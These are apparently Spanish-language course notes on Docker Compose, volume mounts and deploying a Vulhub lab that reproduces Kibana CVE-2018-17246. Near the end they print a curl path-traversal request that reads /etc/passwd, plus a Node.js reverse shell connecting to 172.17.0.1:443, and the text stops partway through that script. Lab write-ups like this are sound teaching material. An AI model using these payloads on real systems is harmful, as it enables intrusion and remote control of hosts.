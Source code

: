 Docker Compose es una herramienta de orquestación de contenedores que permite definir y ejecutar aplicaciones multi-contenedor de manera fácil y eficiente. Con Docker Compose, podemos describir los diferentes servicios que componen nuestra aplicación en un **archivo YAML** y, a continuación, utilizar un solo comando para ejecutar y gestionar todos estos servicios de manera coordinada.


Las **monturas**, por otro lado, nos permiten compartir un directorio o archivo entre el sistema host y el contenedor. Esto nos permitirá persistir la información entre ejecuciones de contenedores y compartir datos entre diferentes contenedores.

Para utilizar las monturas, se utiliza la opción “**-v**” o “**–volume**” en el comando “**docker run**“. Esta opción se utiliza para especificar la montura y se puede utilizar de varias maneras. Por ejemplo, si se desea montar el directorio “**/home/usuario/datos**” del host en el directorio “**/datos**” del contenedor

❯ **docker run -dit -p 80:80 -v /home/omar/Desktop/docker/:/var/www/html --name myWebServer webserver** Para crear el contenedor le colocamos un nombre y colocamos la imagen antes creada y nos devuleve el identificador de nuestro contenedor
* p -> Aplicaremos PortForwarding en donde indicamos que mi puerto 80 sea el puerto 80 del contenedor
* v -> Para hacer que la primer ruta (Ruta principal) este montada en la segunda y con eso se lograra que cualquier cambio que haga en culaquier de las dos rutas se vea reflejado en ambas


## Despliegue de máquinas vulnerables con Docker-Compose
A continuación, os proporcionamos el enlace al proyecto de Github que estamos usando para esta clase:
-   **Vulhub**: [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub)
Asimismo, por aquí os compartimos el enlace al recurso donde se nos ofrece el script en Javascript encargado de establecer la Reverse Shell:
-   **NodeJS Reverse Shell**: [https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell)

Desplegaremos una maquina Kibana con su vulnerabilidad 
* **Kibana** es una interfaz de usuario gratuita y abierta que permite visualizar los datos de ElasticSearch y navegar en el Elastic Stack
* **Elasticsearch** es 
* **Elastic Stack**  es

❯ **svn checkout \https://github.com/vulhub/vulhub/trunk/kibana/CVE-2018-17246** Para clonar una subcarpeta de Github y en donde dice **/tree/master** quitarlo de la url y colocar **/trunk** y el resto de la url
❯ **docker-compose up -d** Para poder desplegar el contenerdor una vez descargada
❯ **docker port cve-2018-17246_kibana_1** Miramos el puerto que esta usando para ese servicio en especifico

Web **localhost:5601** Para poder ver el servicio web de Kibana

❯ **curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../etc/passwd"**
* X -> Es el metodo que queremos tramitar GET
* s -> modo silence
❯ **docker-compose logs** Para mirar los logs en Docker pero debes de estar dentro del contenedor 
❯ **docker-compose exec kibana bash** Para ingresar al Kibana
	❯ **cd /tmp** Este dir tiene privilegios de lectura y escritura
	❯ **nano reverse.js**
		(function(){
		    var net = require("net"),
		        cp = require("child_process"),
		        sh = cp.spawn("/bin/sh", []);
		    var client = new net.Socket();
		    client.connect(443, "172.17.0.1", function(){
		        client.pipe(sh.stdin);
		        sh.stdout.pipe(client);
		        sh.stderr.pipe(client);
		    });
		    return /a/; // Prevents the Node.js application form crashing